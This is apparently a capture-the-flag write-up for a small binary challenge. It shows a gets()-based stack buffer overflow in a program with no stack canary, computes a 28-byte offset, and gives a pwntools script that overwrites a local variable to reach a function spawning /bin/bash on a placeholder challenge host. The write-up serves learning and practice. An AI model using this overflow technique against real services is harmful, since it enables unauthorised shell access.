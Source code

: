## Solution

To analyse the binary, we use [Cutter](https://github.com/rizinorg/cutter).

## Analysis

![Disassembly View](images/1.png)  
![Decompiler View](images/2.png)

By inspecting both the disassembled and decompiled views, we observe the following:

- The program uses the unsafe `gets()` function to read user input, making it vulnerable to a buffer overflow.
- A local variable `var_ch` is initialized to `0x4d2` (which is **1234** in decimal).
- The program checks if `var_ch == 0x162e` (**5678** in decimal).
- If this condition is met, it prints `"Welcome home!"` and invokes the `shell()` function, which spawns a Bash shell using `system("/bin/bash")`.
- Otherwise, it prints:  
  `You are lying. No access for you.`

![Control Flow](images/3.png)


Running `checksec` on the binary shows no stack canaries are used.

This confirms that a **stack buffer overflow** is possible.


The disassembler reveals the stack layout:

```
; var char *s @ stack - 0x28
; var unsigned long long var_ch @ stack - 0xc
```


This means:
- The buffer `s` starts at `rbp - 0x28`
- The target variable `var_ch` is at `rbp - 0xc`
- To reach and overwrite `var_ch`, we need to overflow `0x28 - 0xc = 0x1C` bytes (28 bytes)

Plan:
1. Fill 28 bytes to overflow the buffer.
2. Overwrite `var_ch` with `0x162e` (5678 in decimal).


### Exploit Code

We can use Pwn Tools to write the exploit

```python
from pwn import *

# Connect to the vulnerable service
p = remote("CHALLENGE_IP", 1337)

# 28 bytes padding + 4 bytes to overwrite var_ch
payload = b"A" * (0x28 - 0xc) + p32(0x162e)

# Send the crafted input
p.sendline(payload)

# Interact with the shell
p.interactive()
```

Running the exploit results in a shell:

![](images/4.png)

You can now grab the flag or run further commands.